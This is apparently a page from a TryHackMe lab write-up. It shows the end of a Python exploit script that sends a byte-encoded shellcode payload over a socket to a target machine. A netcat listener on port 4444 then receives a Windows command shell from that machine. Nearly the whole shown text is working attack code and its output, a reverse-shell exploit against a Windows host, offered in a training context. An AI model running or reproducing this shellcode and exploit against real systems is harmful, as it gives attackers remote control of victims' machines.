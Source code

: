 ```python
payload += b"\xf1\xcb\x03\x57\x64\x98\x08\x1c\xe2\xc6\x0c\xa3\x27\x7d"
payload += b"\x28\x28\xc6\x51\xb8\x6a\xed\x75\xe0\x29\x8c\x2c\x4c\x9f"
payload += b"\xb1\x2e\x2f\x40\x14\x25\xc2\x95\x25\x64\x8b\x5a\x04\x96"
payload += b"\x4b\xf5\x1f\xe5\x79\x5a\xb4\x61\x32\x13\x12\x76\x35\x0e"
payload += b"\xe2\xe8\xc8\xb1\x13\x21\x0f\xe5\x43\x59\xa6\x86\x0f\x99"
payload += b"\x47\x53\x9f\xc9\xe7\x0c\x60\xb9\x47\xfd\x08\xd3\x47\x22"
payload += b"\x28\xdc\x8d\x4b\xc3\x27\x46\x7e\x06\x20\x48\x16\x24\x2e"
payload += b"\x65\xbb\xa1\xc8\xef\x53\xe4\x43\x98\xca\xad\x1f\x39\x12"
payload += b"\x78\x5a\x79\x98\x8f\x9b\x34\x69\xe5\x8f\xa1\x99\xb0\xed"
payload += b"\x64\xa5\x6e\x99\xeb\x34\xf5\x59\x65\x25\xa2\x0e\x22\x9b"
payload += b"\xbb\xda\xde\x82\x15\xf8\x22\x52\x5d\xb8\xf8\xa7\x60\x41"
payload += b"\x8c\x9c\x46\x51\x48\x1c\xc3\x05\x04\x4b\x9d\xf3\xe2\x25"
payload += b"\x6f\xad\xbc\x9a\x39\x39\x38\xd1\xf9\x3f\x45\x3c\x8c\xdf"
payload += b"\xf4\xe9\xc9\xe0\x39\x7e\xde\x99\x27\x1e\x21\x70\xec\x2e"
payload += b"\x68\xd8\x45\xa7\x35\x89\xd7\xaa\xc5\x64\x1b\xd3\x45\x8c"
payload += b"\xe4\x20\x55\xe5\xe1\x6d\xd1\x16\x98\xfe\xb4\x18\x0f\xfe"
payload += b"\x9c"

try:
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print("Connected")
except Exception as e:
  print("Error while connecting")
  print(e)
  sys.exit(1)

try:
  print("Sending payload")
  s.send(payload + b'\r\n')
  s.recv(1024)
except Exception as e:
  print("Error while sending data")
  print(e)
  sys.exit(1)

finally:
  print("Closing socket")
  s.close()
```

> Note: IP 10.10.7.45 is VM on THM

Listening with netcat:
```
vladislav@Mac ~ % netcat -nlvp 4444
Connection from 10.10.7.45:49162
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>
```
